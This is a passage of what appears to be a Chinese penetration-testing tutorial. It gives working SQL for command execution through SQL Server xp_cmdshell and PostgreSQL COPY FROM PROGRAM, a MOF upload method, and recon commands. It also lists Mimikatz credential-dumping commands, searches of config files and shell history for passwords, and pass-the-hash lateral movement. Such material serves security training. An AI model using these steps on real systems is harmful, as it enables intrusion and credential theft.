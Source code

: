 *   **SQL Server 提权：**
    *   **xp\_cmdshell：**
        *   **方法：** 启用 `xp_cmdshell` 扩展存储过程，然后使用它执行系统命令。
        *   **条件：** 需要是 `sysadmin` 角色成员。
        *   **操作：**
            ```sql
            -- 启用 xp_cmdshell
            EXEC sp_configure 'show advanced options', 1;
            RECONFIGURE;
            EXEC sp_configure 'xp_cmdshell', 1;
            RECONFIGURE;

            -- 执行命令
            EXEC xp_cmdshell 'whoami';
            ```
    *   **CLR 程序集：**
        *   **方法：** 创建一个 CLR 程序集，该程序集可以执行系统命令。
        *   **条件：** 需要 `UNSAFE ASSEMBLY` 权限。
    *   **MOF (Managed Object Format) 上传：**
        *   **方法：** 上传恶意的 MOF 文件到 `C:\WBEM\MOF` 目录，当系统重启时，MOF 文件会被执行，从而提权。
        *   **条件：** 需要 `sysadmin` 权限。

*   **PostgreSQL 提权：**
    *   **利用 COPY 命令：**
        *   **方法：** 将恶意代码写入文件，需要 `pg_read_server_files` 或 `pg_write_server_files` 权限.
        *   **操作：**
            ```sql
            CREATE TABLE cmd_exec(cmd_output text);
            COPY cmd_exec FROM PROGRAM 'whoami';
            SELECT * FROM cmd_exec;
            ```

**第三部分：利用系统权限进行内网渗透**

获得了操作系统最高权限后，就可以在内网中进行横向移动。

*   **信息收集：**
    *   **网络配置：**
        *   IP 地址、子网掩码、网关、DNS 服务器.
        *   `ipconfig /all` (Windows), `ifconfig` (Linux)
    *   **路由表：**
        *   确定可以到达的网络段 `route print` (Windows), `route -n` (Linux).
    *   **ARP 缓存：**
        *   查看与哪些机器进行过通信 `arp -a` (Windows/Linux).
    *   **进程列表：**
        *   查看正在运行的进程，可能发现有用的信息，如数据库连接字符串等。
    *   **用户列表：**
        *   `net user` (Windows), `cat /etc/passwd` (Linux)
    *   **共享目录：**
        *   `net share` (Windows), `showmount -e` (Linux).
    *   **防火墙规则：**
        *   `netsh advfirewall firewall show rule` (Windows), `iptables -L` (Linux)
    *   **服务列表：**
        *   `services.msc` (Windows), `systemctl list-units --type=service` (Linux)
*   **凭据获取：**
    *   **Mimikatz (Windows)：**
        *   提取内存中的密码、哈希和 Kerberos 票据.
        *   `privilege::debug`
        *   `sekurlsa::logonpasswords`
        *   `sekurlsa::pth` (Pass-the-Hash)
    *   **读取配置文件：**
        *   查找包含密码的配置文件，如 Web 应用的 `config.php`、数据库的 `jdbc.properties` 等。
        *   检查历史命令记录：`~/.bash_history` (Linux)，PowerShell 历史记录 (Windows)。
*   **横向移动：**
    *   **Pass-the-Hash/Pass-the-Ticket：**
        *   利用获取的哈希或 Kerberos 票据登录其他机器.